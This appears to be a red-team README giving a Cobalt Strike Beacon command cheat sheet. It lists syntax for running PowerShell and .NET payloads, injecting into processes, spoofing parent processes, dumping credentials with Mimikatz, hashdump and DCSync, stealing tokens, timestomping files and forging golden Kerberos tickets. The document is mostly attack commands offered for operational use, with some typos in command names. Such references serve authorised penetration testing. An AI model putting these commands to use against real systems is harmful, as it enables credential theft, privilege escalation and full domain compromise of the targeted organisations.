 <p align="center">
  <img width="500" height="100" src="https://github.com/bigb0sss/RedTeam/blob/master/CobaltStrike/cs_logo.png">
</p>

## Command References

### Beacons
#### Sleep
```
sleep 60 50               ; Sleep 60 sec with 50% of jitter (Call back between 30 to 60 secs randomly) 
```

#### Command Execution
##### Default
```
run [command]
```
##### powershell.exe
```
powershell-import [/path/to/your.ps1]       ; Running it from your localhost
powershell [cmdlet] [args]
```
##### powerpick (Using PS w/o powershell.exe)
```
powrepick [cmdlet] [args]
```

##### psinject (Using PS within another process)
```
psinject [PID] [x86|x64] [cmdlet] [args]
```

##### .NET
```
execute-assembly [/path/to/your.exe]        ; Running it from your localhost
```

##### cmd.exe
```
shell [command] [args]
```

#### Session Passing
```css
spawn [x86|x64] [Listener]
inject [PID] [x86|x64] [Listener]
```

#### Parent Process Modification
```
ppid [Choice of your parent process (e.g., iexplore.exe)]
spawnto [x86|x64] [New parent process]
```

#### SMB Beacn
```
spawn [SMB-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") SMB beacon 
inject [PID] [x86|x64] [SMB-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```

#### TCP Beacn
```
spawn [TCP-Listner-Name]                    ; Spawning a peer-to-peer ("P2P") TCP beacon 
                                            ; TCP beacons can be also run locally by clicking "Bind to localhost only" on GUI
inject [PID] [x86|x64] [TCP-Listner-Name]   ; Useful when trying to spawn P2P beacon as different user context
```
#### Credentials and Hashes
```
logonpasswords                              ; Run Mimikatz
hashdump                                    ; Get SAM database hashes
```

#### Mimikatz
```
mimikatz [command] [args]                   ; Runs a Mimikatz command
mimikatz ![command] [args]                  ; Elevate to SYSTEM and run Mimikatz command
mimikatz @[command] [args]                  ; User current token to run Mimikatz command
```
#### DCSync
```
dcsync [domain] [DOMAIN\user]
```

#### File Download
```
download [file]
cancel [file|*]
downloads
View --> Downloads --> Sync Files
```

#### File Upload
```
upload [/path/to/file]
timestomp [Destination] [Source]            ; Changing file's timestamps (*Do not recommend using it during the engagement) 
```

#### Token Stealing
```
ps                                          ; List process
steal_token [PID]                           ; Stealing token
getuid                                      ; Identify/confirm who you are
rev2self                                    ; Drop/revoke token

spawnas DOMAIN\user password                ; Spawn a beacon w/ alternative creds
make_token DOMaIN\user password             ; Create a token. So when you do a make_token, when you do 'whoami' you will 
                                            ; still see your current user account; however, if you do a remote 'whoami' 
                                            ; (maybe against DC) you will see that the maked token user.
```

#### Kerberos Tickets
```
klist                                       ; See your current Kerberos tray 
kerberos_ticket_purge                       ; Purge tickets
kerberos_ticket_user [/path/to/file.ticket] ; Load a ticket

<Golden Ticket>
- Desired user and DOMAIN name
- Domain SID [whoami /user + drop last number]
- NTLM hash of krbtgt user from DC
```
